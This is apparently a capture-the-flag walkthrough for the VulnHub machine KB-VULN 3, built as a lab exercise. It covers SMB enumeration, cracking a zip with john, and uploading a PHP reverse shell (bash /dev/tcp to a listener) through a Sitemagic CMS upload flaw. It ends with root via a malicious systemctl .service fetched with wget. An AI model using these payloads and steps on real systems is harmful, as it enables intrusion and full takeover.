 # KB-VULN: 3

[Machine](https://www.vulnhub.com/entry/kb-vuln-3,579/ "https://www.vulnhub.com/entry/kb-vuln-3,579/")

## Reconnaissance 

### nmap

* ssh
* http
* smb

### smb

Guest access is allowed.
To see the directories:
```
smbclient --no-pass -L //192.168.0.101/
```
To see inside Files dir:
```
smbclient --no-pass //192.168.0.101/Files
```
Now you will get a `website.zip` file with password protection.

#### john the reaper

To get the hash of the files inside a zip
```
zip2john website.zip > website.hash
```

To crack the hash:
```
john -w=/usr/share/wordlists/rockyou.txt website.hash
```
So, the password is `porchman`. There is a file README.txt, in which we have creds from `the Heisenberg website`.

### http

Change `/etc/hosts` by adding `kb.vuln` ip-address.
Go to a web-site and you'll see the Sitemagic CMS banner...
Run a `dirb` to find the admin url:
```
dirb http://kb.vuln/ /usr/share/wordlists/dirb/big.txt -o dirb.txt
```
kb.vuln/admin was found.

Also, check the version of CMS with `whatweb`. But it will not give a result. So, you can just search for a version inside the files in `sitemagic` folder from `website.zip`.
In the end, you will receive the 4.4.2 version of CMS.

I found a file upload function.

## Thread modeling

* We have a cred `admin:jesse`.
* File upload.
* Reverse shell to the server and we will get the shell.

## Vulnerability analysis

CMS version is vulnerable!
```
searchsploit sitemagic
```
"Arbitrary File Upload (Authenticated)".

## Exploitation

My reverse shell is simple:
```
<?php exec("bash -c 'bash -i >& /dev/tcp/192.168.0.106/4444 0>&1'"); ?>
```
Go to `http://kb.vuln/index.php?SMExt=SMFiles`. I uploaded the shell to `images`. Next, trigger the shell with `kb.vuln/files/images/shell.php` and an enabled server(`nc -lnvp 4444`).

## Post exploitation

### Try to change user
Got shell, but as a `www-data` user. With `/etc/passwd` or `/home` or you could guess in `README.txt` another user `heisenberg`. I tried to brute-force ssh with his "login" and `hydra`, but it didn't work.

### Privilege escalation
With `find / -perm -4000 -type f 2>/dev/null` or LinEnum.sh or linpeas.sh(which use this command, I think) you can get the list of SUID binaries. Among them `systemctl`.
Next, to exploit systemctl you need to write a `.service` file that will establish the reverse shell. My [shell.service](post/shell.service).
Copy script to `/var/www/html` and start apache with `systemctl start apache2`. Then on target `wget http://your.ip.address/shell.service`.
For some reason, systemctl don't want to link file in `/tmp`. So, I did it in folder where shell was spawned(`/var/www/html/sitemagic/files/images`).
```
systemctl link /var/www/html/sitemagic/files/images/shell.service
systemctl start shell.service
```
Got root.

## Sources

[systemctl .service examples](https://www.shellhacks.com/systemd-service-file-example/ "https://www.shellhacks.com/systemd-service-file-example/")
